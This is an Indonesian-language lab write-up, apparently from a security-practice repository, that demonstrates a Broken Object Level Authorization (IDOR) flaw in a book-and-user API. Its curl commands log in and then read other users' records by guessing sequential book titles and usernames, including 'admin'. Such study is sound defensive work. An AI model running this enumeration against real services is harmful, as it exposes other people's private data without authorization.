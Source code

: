 # Broken Object Level Authorization
Penyerang dapat mengeksploitasi endpoint API yang rentan terhadap Broken Object Level Authorization (BOLA) / IDOR (Insecure Direct Object Reference) dengan memanipulasi ID objek yang dikirimkan dalam request. ID Objek dapat berupa apa saja, mulai dari bilangan bulat berurutan, UUID, atau string. Akses tidak sah terhadap objek pengguna lain dapat mengakibatkan pengungkapan data kepada pihak yang tidak berwenang, kehilangan data, atau manipulasi data. Celah keamanan ini ditemukan pada endpoint `/books/v1/{book_title}` dan `/users/v1/{username}`

- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"test","password":"test"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

```sh
curl http://IP_Server:5000/books/v1/bookTitle36 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```


```sh
curl http://IP_Server:5000/books/v1/bookTitle37 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

```sh
curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
```

```sh
curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
```


```sh
curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
```

- Pada endpoint `/books/v1/{book_title}` kita mengakses data dengan menebak urutan parameter **book_title** seperti `bookTitle36` dan `bookTitle36`. Begitu juga dengan endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`